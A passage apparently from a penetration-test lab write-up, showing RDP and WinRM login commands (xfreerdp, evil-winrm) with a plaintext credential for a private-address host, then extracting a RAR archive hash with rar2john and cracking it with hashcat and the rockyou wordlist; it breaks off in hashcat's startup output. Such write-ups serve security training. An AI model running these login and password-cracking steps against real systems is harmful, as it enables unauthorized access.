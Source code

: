 ### RDP
TCP port 3389.
```bash
xfreerdp /u:sa /p:EjectFrailtyThorn425 /cert:ignore /workarea /v:192.168.186.70

# output
NSTR
```

### WinRM
TCP port 5985.
```bash
evil-winrm -u sa -p "EjectFrailtyThorn425" -i 192.168.186.70

# output
NSTR
```

## Gaining Access
The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, $Author was able to successfully gain access to 10 out of the 50 systems.

### Password Guessing  
#### Credentials
* Application
  * sa:EjectFrailtyThorn425
* Operating System
  * jane
  * administrator

```bash
sudo apt install unrar
unrar e MSSQL_BAK.rar

# output
UNRAR 6.00 freeware      Copyright (c) 1993-2020 Alexander Roshal

Enter password (will not be echoed) for MSSQL_BAK.rar:
```

```bash
rar2john MSSQL_BAK.rar > MSSQL_BAK.hash
cat MSSQL_BAK.hash | grep -E -o '(\$RAR3\$[^:]+)|(\$rar5\$.*)' > rar.hash
cat rar.hash

# output
$rar5$16$53b1acf5cd3d02dafdf50f1cb79e46e5$15$a8761ee8f467302d9ee19284f60713dd$8$514688ceb07cab7b
```

```bash
hashcat -m 13000 -a 0 rar.hash /usr/share/wordlists/rockyou.txt 

# output
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-10750H CPU @ 2.60GHz, 2880/2944 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
```